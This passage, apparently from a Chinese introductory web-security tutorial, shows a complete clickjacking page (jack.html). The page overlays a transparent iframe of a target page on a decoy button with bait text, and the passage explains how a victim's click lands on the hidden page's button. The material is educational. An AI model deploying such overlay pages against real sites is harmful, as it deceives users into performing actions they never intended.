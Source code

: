 再写一个jack.html，劫持页面。
```
<!DOCTYPE HTML>
<html>
	<head>
		<title>点击劫持</title>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
		<style>
			 html,body,iframe{
				 display: block;
				  height: 100%;
				  width: 100%;
				  margin: 0;
				  padding: 0;
				  border:none;
			 }
			 iframe{
				  opacity:0;
				  filter:alpha(opacity=0);
				  position:absolute;
				  z-index:2;
			 }
			 button{
				  position:absolute;
				  top: 335px;
				  left: 462px;
				  z-index: 1;
				  width: 72px;
				  height: 26px;
			 }
		</style>
	</head>
    <body>
          那些不能说的秘密
          <button>查看详情</button>
          <iframe src="src.html"></iframe>
     </body>
</html>
```

这个页面用一个按钮覆盖了原网页的按钮，用户点击后，实际就点击到了原网页的按钮。

![jack.html](web安全入门/20170622122652.png)
